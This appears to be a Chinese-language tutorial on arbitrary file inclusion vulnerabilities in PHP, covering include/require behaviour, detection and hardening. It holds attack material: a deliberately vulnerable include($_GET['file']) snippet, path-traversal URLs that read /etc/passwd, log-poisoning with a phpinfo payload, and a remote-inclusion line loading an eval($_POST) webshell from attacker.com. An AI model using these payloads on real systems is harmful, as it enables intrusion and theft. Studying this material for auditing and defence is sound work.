


# PHP审计中的任意文件包含漏洞

- 👴'm thinking life's too short its passing by ！
<<[Go Big or Go Home](http://music.163.com/song?id=32166698&userid=262256866)>> 
专辑：Go Big or Go Home 
歌手：American Authors

### [文件包含漏洞](https://github.com/xidaner/Freed0m/blob/master/%E7%AC%94%E8%AE%B0/%E5%BC%80%E5%8F%91/PHP/php%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/PHP%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.md)

#### 什么是文件包含

在Python中，经常会通过 `import` 来导入一些公共资源。在PHP中也有类似函数。可以通过文件包含的方式将文件包含进来并直接当成PHP代码执行。

文件包含分为 本地文件包含 和远程文件包含。远程文件包含需要在php.ini中设置allow_url_include = on和allow_url_fopen= on。一般该设置为Off所以很少见。 首先得说明，`文件包含本身并不是问题`在程序中写死的文件包含不会形成漏洞，几乎所有漏洞的成因都是因为相关参数可控

那么文件包含漏洞是怎么产生的呢？

#### 什么是任意文件包含漏洞


在包含文件时候，为了灵活包含文件，将被包含文件设置为`变量`，通过`动态变量`来引入需要包含的文件时，服务器端某些程序对用户提交的参数过滤不当造成，最终造成攻击者进行任意文件包含（`任意文件包含才是漏洞`)。
该程序一般具有以读取方式输出文件内容或下载文件，前者也可以叫做 `任意文件读取` , 两者本质上是一样的。通常在以下情况存在该漏洞。
 - 通过在请求参数中传入文件路径包括相对路径和绝对路径：`download.php?filename=index.html`
 - PHP代码中存在的本地文件包含漏洞，其中关键函数为
    - require()
    - require_once()
    - include()
    - include_once()
- Web目录在根目录(很少见很少见)，导致可以直接下载任意文件，如：http://127.0.0.1/etc/passwd

文件包含漏洞在PHP中居多，而在JSP、ASP、ASP.NET程序中却非常少见。甚至没有漏洞的存在(🙃知道该选谁了吧)

**文件包含分类**


**PHP文件包含的函数**

```
- include()函数：使用include引用外部文件时，只有代码执行到include代码段时，调用的外部文件才会被引用并读取，当引用的文件发生错误时，系统只会给出个警告错误，而整个php文件会继续执行

- require()函数：在php文件被执行之前，php解析器会用被引用的文件的全部内容替换require语句，然后与require语句之外的其他语句组成个新的php文件，最好后按新的php文件执行程序代码

- include_once()函数：使用include_once会在导入文件前先检测该文件是否在该页面的其他部分被引用过，如果有，则不会重复引用该文件，程序只能引用一次

- require_once()函数：功能与 require()相同，区别同样在于当重复调用同一文件时，程序只调用一次
```

#### PHP文件包含的漏洞实现

**本地文件包含**：
  文件包含，被包含的文件，不一定需要是动态脚本语言，包括txt文件在内都会被直接当成动态语言来执行，下面给出一段示例：
**PHP:**
```php
<?php
include('phpinfo.txt');
```

**被包含文件：**
```PHp
<?php 
phpinfo();
```


修改代码为用户可控文件名，如下：
```php
<?php
$test = $_GET['file'];
include($test);
```




**基于apache日志的文件包含--较难实现，为参考思路**

先访问错误的网页让apache服务器记住

```
 /index.php/<?php phpinfo();?>
```
此时包含这个日志文件，让代码执行


> 此处需要日志所在文件夹的权限，才可以成功。

**远程文件包含**

如果PHP的配置选项 allow_url_include为On，才可以加载远程文件，这种漏洞就被叫做远程文件包含漏洞。

在控制file参数时，包含恶意代码的地址。

远程文件包含配置:
```
allow_url_fopen=On(是否允许打开远程文件)
allow_url_include=On(是否允许Include/require远程文件)
```


**了解文件包含漏洞**

要想要成功利用文件包含漏洞，需要满足以下两个条件：
 1. 有include()等函数通过动态变量的方式引入需要包含的文件。
 2. 用户能够控制该动态变量。


#### 文件包含漏洞的探测方法

  **手工检测**：
  1. 在路径中添加abc/../看看是否可以回溯
  如将：`http://127.0.0.1/download.php?filename=xxx.file`
  改成：`http://127.0.0.1/download.php?filename=abc/../xxx.file`
  查看两次下载的文件是否相同。相同则进行以下操作

  2. 确定是否可以下载任意文件：
  `http://127.0.0.1/download.php?filename=../../../../../etc/passwd`


#### **如何利用文件包含漏洞**

**1. 收集信息** 

思路一：下载系统中的文件：
```
- 账号文件： /etc/passwd
- 环境变量文件： /etc/profile
- 系统服务文件： /etc/services
- 主机名和IP配置信息： /etc/hosts 和 /etc/hostname
- DNS客户机的配置文件： /etc/resolv.conf
- MYSQL客户据配置文件： /etc/my.conf
- WebServer配置文件： /etc/httpd/httpd.conf、/etc/httpd/conf/ngnix.conf、/etc/nginx/nginx.conf
```
思路二：扫描或猜测站点可能存在的测试文件、探针文件
```
 - Test.php
 - Phpinfo.php
```

思路三：源码管理站点。收集其中包含的地址信息，配置信息等。 
```
- 可能保存网站部分源码或者工程的子站，如：dev.xxx.com
- 开源站点，如github。sourceforge等
```

**2. 找WEB目录**

- 在web服务器配置中查找
- 猜解常见路径，如：/var/www， /home/www, /home/htdocs/等
- 在脚本文件中，如 `PHPinfo` 中的 `BASEPATH` 等。

**3. 获取地址列表**
- 利用爬虫程序将网站的目录和文件全部爬取下来，整理出URL地址列表

**4. 批量下载脚本**
- 通过自动化脚本程序将URL地址列表中的脚本文件全部下载下来。

**5. 分析已下载的文件**
- 进行代码审计，分析源码中可能存在的各类漏洞，包含 SQL注入、文件包含、命令执行、代码执行、上传漏洞等。


#### 利用教学

1. 本地文件包含，读取敏感文件
访问URL：`http://www.xxx.con/index.php?file=/etc/passwd`
如果目标主机文件存在该文件，并且有相应的权限，则可以读取文件的内容。

2. 远程文件包含shell
如果目标主机 `allow_url_fopen` 是激活,就可以尝试远程包含一句话木马，比如你在 Vultr 上搭建一个零时的虚拟机，然后搭建一个网站服务，在目录中写入 TXT 文件，如:
`<?php eval($_POST[1])?>`

然后访问那个存在远程包含的文件构造URL：
`http://example.com/index.php?file=http://www.attacker.com/shell.txt`

就可以远程获取shell了。

#### 如何防护漏洞

1. 无需情况下设置 `allow_url_include和allow_url_fopen` 为 Off
2. 对可以包含的文件进行限制，可以使用白名单的方式，或者设置可以包含的路径目录，如 open_basedir
3. 建议假定所有输入都是可疑的，尝试对所有输入提交可能存在包含的文件地址，包括服务器本地及远程文件，进行严格的审查，参数中不允许出现 `../`之类的目录跳转符。
4. 严格检测 include 类的文件包含函数中的参数是否外界可控。


